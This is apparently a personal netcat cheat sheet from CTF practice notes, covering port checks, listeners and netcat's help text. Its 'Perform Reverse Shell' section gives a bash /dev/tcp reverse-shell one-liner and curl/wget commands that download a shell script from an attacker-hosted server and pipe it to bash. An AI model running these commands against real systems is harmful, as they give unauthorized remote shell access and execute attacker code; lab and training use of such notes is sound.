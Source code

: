 # [Connection] Netcat

## Check target port avaiable
```bash
nc -nv 192.168.0.12 8080

nc -nv -w 3 192.168.0.12 8080 # Faster die time if target not open
```

## Check connections
```bash
nc jupiter.challenges.picoctf.org 64287
```

## Open current port
```bash
nc -lvnp 8080
```

## Perform Reverse Shell
https://www.revshells.com/

1. In your machine, run the nc listener, assume you are open port `8080`
```bash
nc -lvnp 8080
```

2. In victims machine, run the target code and done
```bash
sh -i >& /dev/tcp/192.168.80.105/8080 0>&1
```

3. (Optional) In case, you may use `python` or npm `serve` to host a simple web server
```bash 
python3 -m http.server 8080

serve -p 8080
```

4. (Optional) In victim machine, use `wget`, `curl` or `Invoke-WebRequest`
```bash
wget http://172.31.206.223:8080/shell.sh
curl http://172.31.206.223:8080/shell.sh

curl%20http://172.31.206.223:8080/shell.sh|bash

Invoke-WebRequest http://172.31.206.223:8080/shell.sh -OutFile shell.sh | bash shell.sh
```


## Overall help
```md
[v1.10-47]
connect to somewhere:   nc [-options] hostname port[s] [ports] ...
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
        -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').
```
